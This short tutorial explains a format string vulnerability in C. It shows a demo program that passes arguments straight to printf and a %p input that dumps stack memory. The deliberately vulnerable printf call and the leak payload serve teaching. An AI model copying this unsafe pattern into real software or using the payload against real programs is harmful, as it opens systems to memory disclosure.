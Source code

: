 # Format String Vulnerability

Take a look at the following code:

```C
int main(int argc, char *argv[]) {

    printf("Welcome to %s\n", argv[0]);
    printf("You called the program with %d options. They are:\n", argc-1);

    if (argc > 1) {
        int j;
        for (j=1; j < argc; j++) {
        printf(argv[j]);
        printf("\n");
        }
    }
    return 0;
}
```

What would happen if we ran this command line program with an option like ```hello world```?

```
./formatstring hello world

Welcome to ./formatstring
You called the program with 2 options. They are:
hello
world
```

Works as intended!

But the dangerous bit (which is noted by the compiler by the way...) is the so-called naked format string in the following line:
```C
printf(argv[j]);
```

This can be abused by sending printf format options, the most common of which is ```%p```.

Let's try spamming it with %p to dump memory:

```
./formatstring %p%p%p%p%p%p%p%p%p

Welcome to ./formatstring
You called the program with 1 options. They are:
0x10x10239d9100x16da6f7200x20x16da6f7000x19f403f280x00x00x0
```

And just like that we start dumping memory!

